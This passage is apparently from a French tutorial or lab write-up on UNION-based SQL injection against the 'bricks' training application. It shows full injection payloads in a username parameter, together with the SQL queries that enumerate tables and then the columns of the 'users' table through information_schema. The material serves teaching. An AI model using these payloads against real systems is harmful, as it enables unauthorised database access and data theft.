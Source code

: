 ![Récupération des Tables](images/list_tables.png)

Soit l'injection SQL suivante :
```
username=tom'+UNION+SELECT+NULL,NULL,group_concat(0x7c,table_name,0x7c),NULL,NULL,NULL,NULL,NULL+FROM+information_schema.tables+WHERE+table_schema='bricks'+LIMIT+1,1;--+&submit=Submit
```

La base de données `bricks` ne contient ici qu'une seule table : `users`.

## Lister les colonnes

Une fois que la table est connue, on peut lister les colonnes de la table.
Ici, la table visée est `users` de la base de donnée `bricks`.

Lister les tables se fait avec la requête SQL suivante :
```
SELECT group_concat(0x7c,column_name,0x7c) FROM information_schema.columns WHERE table_name='nom_de_la_table';
```

Ici, il y a plusieurs tables `users`, sur différentes bases de données. On va donc préciser le nom de la base de donnée dans notre requête.

```
SELECT group_concat(0x7c,column_name,0x7c) FROM information_schema.columns WHERE table_name='nom_de_la_table' AND table_schema='nom_de_la_bdd';
```

![Récurération des colonnes d'une Table avec UNION](images/r%C3%A9cup_colonnes.png)

Soit, l'injection SQL suivante :

```
username=tom'+UNION+SELECT+NULL,NULL,group_concat(0x7c,column_name,0x7c),NULL,NULL,NULL,NULL,NULL+FROM+information_schema.columns+WHERE+table_name='users'+AND+table_schema='bricks'+LIMIT+1,1;--+&submit=Submit
```
